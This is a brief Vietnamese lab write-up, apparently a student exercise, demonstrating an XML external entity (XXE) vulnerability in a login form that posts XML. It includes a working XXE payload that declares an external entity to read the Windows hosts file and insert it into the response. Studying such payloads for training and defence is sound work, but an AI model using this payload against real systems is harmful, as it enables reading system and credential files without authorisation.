


## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 24/5/2022

- Đây là giao diện web bị lỗi XEE.
  
  

- Vì trang web đang sử dụng xml
    ```php
    <?xml version="1.0" encoding="UTF-8"?>
    <creds>
        <user>Tsuki Azuma</user>
        <pass>admin</pass>
    </creds>
    ```
- Đây là dạng xml rất dễ tự tấn công. Nên lúc này, kẻ tấn công có thể sửa xml để thực hiện các hành động tấn công như
    ```php
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts" >]>
    <creds>
        <user>&xxe;</user>
        <pass>admin</pass>
    </creds>
    ```
  
  

- Như vậy, kẻ tấn công đã có thể dễ dàng lấy thông tin từ file hosts 1 cách dễ dàng.